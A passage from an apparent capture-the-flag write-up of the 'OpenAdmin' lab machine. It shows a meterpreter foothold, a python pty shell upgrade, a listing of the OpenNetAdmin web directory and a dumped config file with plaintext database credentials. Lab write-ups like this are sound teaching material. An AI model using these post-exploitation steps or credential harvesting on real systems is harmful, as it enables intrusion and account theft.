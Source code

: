 {% endhighlight %}

Alright, we got a foothold! Lets try spawning a `tty` shell.

{% highlight bash %}
meterpreter > shell
which python
which python3
python3 -c 'import pty; pty.spawn("/bin/bash")'
www-data@openadmin:/opt/ona/www$
{% endhighlight %}

Seems like we are in the web service's directory.

{% highlight bash %}
www-data@openadmin:/opt/ona/www$ ls -al
-rw-rw-r--  1 www-data www-data  1970 Jan  3  2018 .htaccess.example
drwxrwxr-x  2 www-data www-data  4096 Jan  3  2018 config
-rw-rw-r--  1 www-data www-data  1949 Jan  3  2018 config_dnld.php
-rw-rw-r--  1 www-data www-data  4160 Jan  3  2018 dcm.php
drwxrwxr-x  3 www-data www-data  4096 Jan  3  2018 images
drwxrwxr-x  9 www-data www-data  4096 Jan  3  2018 include
-rw-rw-r--  1 www-data www-data  1999 Jan  3  2018 index.php
drwxrwxr-x  5 www-data www-data  4096 Jan  3  2018 local
-rw-rw-r--  1 www-data www-data  4526 Jan  3  2018 login.php
-rw-rw-r--  1 www-data www-data  1106 Jan  3  2018 logout.php
drwxrwxr-x  3 www-data www-data  4096 Jan  3  2018 modules
drwxrwxr-x  3 www-data www-data  4096 Jan  3  2018 plugins
drwxrwxr-x  2 www-data www-data  4096 Jan  3  2018 winc
drwxrwxr-x  3 www-data www-data  4096 Jan  3  2018 workspace_plugins
{% endhighlight %}

After some digging around, I only found database credentials in `/opt/ona/www/local/config/database_settings.inc.php`.

{% highlight bash %}
$ /opt/ona/www/local/config/database_settings.inc.php
<?php

$ona_contexts=array (
  'DEFAULT' => 
  array (
    'databases' => 
    array (
      0 => 
      array (
        'db_type' => 'mysqli',
        'db_host' => 'localhost',
        'db_login' => 'ona_sys',
        'db_passwd' => 'n1nj4W4rri0R!',
        'db_database' => 'ona_default',
        'db_debug' => false,
      ),
    ),
    'description' => 'Default data context',
    'context_color' => '#D3DBFF',
  ),
);

?>
{% endhighlight %}
